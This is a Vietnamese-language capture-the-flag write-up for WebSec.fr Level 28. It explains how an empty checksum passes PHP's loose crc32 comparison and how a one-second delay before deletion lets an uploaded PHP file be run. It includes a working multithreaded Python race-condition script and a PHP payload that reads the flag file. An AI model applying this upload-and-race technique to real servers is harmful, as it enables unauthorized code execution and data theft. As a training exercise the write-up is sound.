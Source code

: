 ```yaml
---
title: WebSec.fr Level 28 CTF challenge
categories: [pentesting, Web-Exploitation, CTF]
---
```


# WebSec.fr Level 28 CTF challenge

### Tổng quan:

![image](https://hackmd.io/_uploads/Syc1KLLjxl.png)

```php
<?php
if(isset($_POST['submit'])) {
  if ($_FILES['flag_file']['size'] > 4096) {
    die('Your file is too heavy.');
  }
  $filename = './tmp/' . md5($_SERVER['REMOTE_ADDR']) . '.php';

  $fp = fopen($_FILES['flag_file']['tmp_name'], 'r');
  $flagfilecontent = fread($fp, filesize($_FILES['flag_file']['tmp_name']));
  @fclose($fp);

    file_put_contents($filename, $flagfilecontent);
  if (md5_file($filename) === md5_file('flag.php') && $_POST['checksum'] == crc32($_POST['checksum'])) {
    include($filename);  // it contains the `$flag` variable
    } else {
        $flag = "Nope, $filename is not the right file, sorry.";
        sleep(1);  // Deter bruteforce
    }

  unlink($filename);
}
?>

```

Đoạn mã này là một trang web đơn giản cho phép người dùng tải lên một tệp và nhập một giá trị checksum. Mục tiêu là tải lên một tệp tin sao cho hai điều kiện sau được thỏa mãn:

- `md5_file($filename) === md5_file('flag.php')`

- `POST['checksum'] == crc32($_POST['checksum'])`

Nếu cả hai điều kiện này đều đúng, tệp tin được tải lên sẽ được include, và vì tệp tin đó có thể chứa mã độc, chúng ta có thể thực thi nó để lấy flag.

### Tiến hành khai thác

Ở đây ta sẽ thử sử dụng chức năng với 1 file php với nội dung:

```php
// show_flag.php
<?php
// Read the contents of the "flag.php" file
$flag_content = file_get_contents("/flag.php");

// Display the contents of the file
echo $flag_content;

?>
```

Để xem thử nó có ra flag hay không.

![image](https://hackmd.io/_uploads/Hy2l9LLjeg.png)

Kết quả trả về cho ta chỉ nhận được dòng `Nope, ./tmp/06e2d538fba99ca2b2456260bc9e08f5.php is not the right file, sorry.`
Ở đoạn `/tmp/06e2d538fba99ca2b2456260bc9e08f5.php` liệu ta có thể khai thác gì thêm từ thông tin này không?

Trong code có đoạn:

```php
$filename = './tmp/' . md5($_SERVER['REMOTE_ADDR']) . '.php';
```

Ở đây giá trị `$filename` sau khi upload lên sẽ được đưa vào thư mục tạm là `/tmp` sau đó là đi với public ip của máy mình và rồi là đuôi file php, vậy nên có thể nhận thấy đây là file cố định với ip của mình và cho dù mình upload bất kì file nào lên thì nó sẽ đều đi vào `/tmp/06e2d538fba99ca2b2456260bc9e08f5.php` trước.

Ngoài ra trong source còn có đoạn:

```php
else {
        $flag = "Nope, $filename is not the right file, sorry.";
        sleep(1);  // Deter bruteforce
    }

  unlink($filename);
}
```

Có nghĩa là khi đẩy lên tmp nếu file sau khi check không trùng với md5 và crc32 checksum thì nó sẽ có 1 khoảng thời gian là 1 giây trước khi nó xoá đi file đó và với 1s thì đó là khoảng thời gian khá dài.

Bây giờ có 2 hướng đi đó là bypass được md5 và crc32 check và hướng race condition lợi dụng 1 giây đó. Với hướng đi đầu thì có vẻ bất khả thi vì ta sẽ khó để có thể biết được md5 của flag được giấu là gì cùng với đó là rất khó để tìm được số x sao cho `x == crc32(str(x))` vì : 

```text
- crc32 trả ra giá trị 32-bit (từ 0 đến 2³²−1 ≈ 4.29 tỉ).

- Nếu coi hàm f(x) = crc32(str(x)) như một ánh xạ trên không gian 2³² phần tử, thì xác suất bất kỳ x cụ thể thỏa f(x)=x vào khoảng 1/2³².

- Nghĩa là trung bình bạn cần thử ~2³² lần (khoảng 4.29 tỉ) mới mong tìm được một nghiệm — không khả thi bằng dò ngẫu nhiên trên 1 máy.
```

Vậy nên ta sẽ dùng trick là so sánh crc32 với chuỗi rỗng:

```text
- crc32('') trả về integer 0.

- '' (chuỗi rỗng) khi ép kiểu sang số cũng trở thành 0.

- PHP dùng so sánh lỏng == sẽ ép kiểu nếu cần, vậy '' == crc32('') tức là '' == 0 → true.

- Nhưng '' === crc32('') (so sánh kiểu chặt ===) sẽ false vì kiểu khác (string vs int).

- Vì vậy gửi checksum là chuỗi rỗng (checksum=) sẽ thỏa điều kiện $_POST['checksum'] == crc32($_POST['checksum'])
```

Vậy nên bây giờ ta chỉ có cách là lợi dụng trong khoảng thời gian 1 giây đó thực hiện request `POST` file php lên và thực hiện `GET` luôn giá trị của flag trong đó.

Bây giờ sử dụng script để khai thác:

```python
# followup_attack.py
import threading, requests, time, random

POST_URL = 'https://websec.fr/level28/index.php'
# replace md5ip with your IP-hash (or compute from your remote IP)
TMP_URL = 'https://websec.fr/level28/tmp/06e2d538fba99ca2b2456260bc9e08f5.php'
FILE_PATH = 'show_flag.php'

NUM_UPLOADERS = 6    # start small (increase slowly if server tolerates)
NUM_READERS = 3
SLEEP_UPLOAD = 0.06  # tune small, don't saturate
SLEEP_READ = 0.02

USER_AGENTS = [
    "Mozilla/5.0 (Windows NT 10.0; Win64; x64)",
    "curl/7.79.1",
    "python-requests/2.x"
]

def uploader(i):
    s = requests.Session()
    s.headers.update({'User-Agent': random.choice(USER_AGENTS)})
    data = {'checksum': '', 'submit': 'Upload and check'}  # empty checksum bypass
    while True:
        try:
            # open fresh every request
            with open(FILE_PATH, 'rb') as fh:
                files = {'flag_file': (FILE_PATH, fh, 'application/octet-stream')}
                r = s.post(POST_URL, files=files, data=data, timeout=8)
            # optionally log low-volume feedback
            if r.status_code != 200:
                print(f"[U{i}] status {r.status_code}")
        except Exception as e:
            print(f"[U{i}] upload err: {e}")
        time.sleep(SLEEP_UPLOAD + random.random()*0.02)

def reader(i, stop_event):
    s = requests.Session()
    s.headers.update({'User-Agent': random.choice(USER_AGENTS)})
    while not stop_event.is_set():
        try:
            r = s.get(TMP_URL, timeout=6)
            if r.status_code == 200:
                txt = r.text
                # quick check for flag pattern
                if 'FLAG{' in txt or 'WEBSEC{' in txt:
                    print(f"[R{i}] !!! FLAG FOUND !!!\n{txt}")
                    stop_event.set()
                    return
                # debug: when file is not PHP anymore (indicates something changed)
                if "<?php" not in txt:
                    print(f"[R{i}] changed content (snippet): {repr(txt[:200])}")
            else:
                # minor backoff on non-200 to avoid making things worse
                time.sleep(0.05)
        except Exception as e:
            print(f"[R{i}] read err: {e}")
        time.sleep(SLEEP_READ + random.random()*0.005)

if __name__ == "__main__":
    stop_event = threading.Event()
    threads = []
    for i in range(NUM_UPLOADERS):
        t = threading.Thread(target=uploader, args=(i,), daemon=True)
        t.start()
        threads.append(t)
    for i in range(NUM_READERS):
        t = threading.Thread(target=reader, args=(i, stop_event), daemon=True)
        t.start()
        threads.append(t)

    try:
        while not stop_event.is_set():
            time.sleep(0.5)
    except KeyboardInterrupt:
        print("Stopped by user")

```

File php với mục đích hiển thị nội dung file flag được giấu ở bên trong hệ thống.

```php
// show_flag.php
<?php
// Read the contents of the "flag.php" file
$flag_content = file_get_contents("/flag.php");

// Display the contents of the file
echo $flag_content;

?>
```

![image](https://hackmd.io/_uploads/B1AYWPLsee.png)

Thành công lấy được nội dung flag ở bên trong bằng cách POST và GET nhanh trong vòng 1 giây.